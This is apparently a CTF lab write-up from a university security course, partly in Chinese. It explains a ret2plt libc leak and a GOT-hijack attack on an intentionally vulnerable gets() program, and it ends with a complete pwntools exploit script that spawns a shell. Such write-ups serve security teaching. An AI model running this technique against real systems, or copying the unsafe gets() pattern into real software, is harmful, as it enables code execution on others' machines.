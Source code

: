 ```yaml
---
title: Simple PWN 0x34 (2023 Lab - ret2plt)
tags: [eductf, CTF, PWN]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x34 (2023 Lab - ret2plt)

## Background
Got Hijack / BoF

## Source code
```cpp
//gcc -no-pie -fno-stack-protector -z norelro ret2plt.c -o ret2plt
#include <stdio.h>
#include <stdlib.h>

int main(){
	char buf[20];
	setvbuf(stdout,0,2,0);
	printf("Try your best :");
	gets(buf);
	puts("boom !");	
}
```

## Recon
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_ret2plt/share/chal'
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7ed984819a3908eff455bfcf87716d0fb298fac, for GNU/Linux 3.2.0, not stripped
    ```
    首先知道這隻binary是動態link library，所以可想而知，rop gadget一定少的可憐，所以我們不太能夠直接像上一題一樣暴力開一個shell出來，程式也沒有幫我們開，讓我們可以直接跳過去
2. 還是有很明顯的BOF的漏洞，此時就可以嘗試類似got hijack的方式打看看
流程:
1. 首先我們要知道libc base address才能夠利用扣掉offset的方式跳到system的地方，但是程式中並沒有能夠直接leak base address給我們的東西，因此我們可以自己想辦法leak: ==ret2plt==
    ```
    pop rdi ret
    puts got address
    puts plt
    ```
    這三行的意思是把puts的got address，透過puts印出來給我們 -> puts(put自己的got address)
2. 有了puts的got address之後，就可以扣掉puts在libc的offset，就可以知道base address，然後我們可以知道system的確切address
    ```python
    # leak puts got address to calculate libc base address
    puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
    libc_base = puts_addr - libc.symbols['puts']
    libc.address = libc_base
    system_addr = libc.symbols['system']
    ```
3. 現在的問題有兩個，一個是我們要怎麼把==/bin/sh==送進去，因為如果直接看binary的gadget沒有`/bin/sh`或是`/sh`的string，不過我們可以直接用同樣的方法，把字串送進去
    ```python
    # fetch user input -> /bin/sh\x00
    pop_rdi_ret
    bss_addr
    gets_plt,
    ```
    此時他就會像使用者要輸入，並把我們的輸入丟到bss address
4. 另外一個問題就是我們要怎麼呼叫==system==，因為這個binary是動態的，代表一開始沒有link到system的話就不能直接呼叫，因此我們可以利用同樣的方法達到==got hijacking==
    ```python
    # fetch user input -> system address
    pop_rdi_ret
    puts_got
    gets_plt
    ```
    此時我們可以輸入system的address，經過這三行後我們就成功把puts got address換成system got address
5. 所有工具都準備好了，接下來只要呼叫puts就可以了，實際上就是呼叫system
    ```python
    # system('/bin/sh\x00')
    pop_rdi_ret
    bss_addr
    puts_plt
    ```

## Exploit - Ret2Plt(leak base address) + Got Hijack(call system)
```python
from pwn import *

r = process('./chal')
# r = remote('10.113.184.121', 10053)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.arch = 'amd64'

pop_rdi_ret = 0x0000000000401263
puts_got = 0x403368
puts_plt = 0x401070
gets_got = 0x403378
gets_plt = 0x401090
bss_addr = 0x403f00
payload = flat(
    # leak puts got address to calculate libc base address
    pop_rdi_ret,    puts_got,
    puts_plt,

    # fetch user input -> /bin/sh\x00
    pop_rdi_ret,    bss_addr,
    gets_plt,

    # fetch user input -> system address
    pop_rdi_ret,    puts_got,
    gets_plt,

    # system('/bin/sh\x00')
    pop_rdi_ret,    bss_addr,
    puts_plt
)
raw_input()
r.sendlineafter(b'Try your best :', b'a' * 0x28 + payload)
print(r.recvline())

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
log.info(f"puts address = {hex(puts_addr)}")

libc_base = puts_addr - libc.symbols['puts']
libc.address = libc_base
system_addr = libc.symbols['system']
log.info(f'system address = {hex(system_addr)}')
r.sendline(b'/bin/sh\x00')
raw_input()
r.sendline(p64(libc.symbols['system']))

r.interactive()
```